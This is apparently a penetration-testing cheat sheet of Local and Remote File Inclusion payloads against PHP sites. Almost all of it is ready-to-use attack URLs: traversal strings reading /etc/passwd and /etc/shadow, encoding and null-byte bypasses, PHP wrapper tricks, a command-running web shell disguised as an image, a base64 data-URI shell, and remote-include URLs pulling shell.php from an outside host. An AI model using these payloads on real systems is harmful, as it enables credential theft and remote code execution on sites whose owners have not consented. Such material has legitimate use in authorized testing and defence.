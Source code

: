 # LFI & RFI

## LFI

### Where to find

* Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

### How to exploit

1. Basic payload

```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../../../../../../../../../../etc/shadow
```

2. URL encoding

```
http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

3. Double encoding

```
http://example.com/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

4. UTF-8 encoding

```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

5. Using Null Byte (%00)

```
http://example.com/index.php?page=../../../etc/passwd%00
```

6. From an existent folder

```
http://example.com/index.php?page=scripts/../../../../../etc/passwd
```

7. Path truncation

```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
```

8. Using PHP Wrappers: filter

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=config.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```

9. Using PHP Wrappers: zlib

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/shadow
```

10. Using PHP Wrappers: zip

```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

11. Using PHP Wrappers: data

```
http://example.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

12. Using PHP Wrappers: expect

```
http://example.com/index.php?page=expect://ls
```

13. Using PHP Wrappers: input

```
POST /index.php?page=php://input&cmd=ls HTTP/1.1
Host: example.com
...

<?php echo shell_exec($_GET['cmd']); ?>
```

14. Some unique bypass

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
http://example.com/index.php?page=/.%2e/.%2e/.%2e/.%2e/etc/passwd
http://example.com/index.php?page=/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

## RFI

### Where to find



* Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

### How to exploit



1. Basic payload

```
http://example.com/index.php?page=http://daffa.info/shell.php
```

2. URL encoding

```
http://example.com/index.php?page=http%3A%2F%2Fdaffa.info%2Fshell.php
```

3. Double encoding

```
http://example.com/index.php?page=http%253A%252F%252Fdaffa.info%252Fshell.php
```

4. Using Null Byte (%00)

```
http://example.com/index.php?page=http://daffa.info/shell.php%00
```
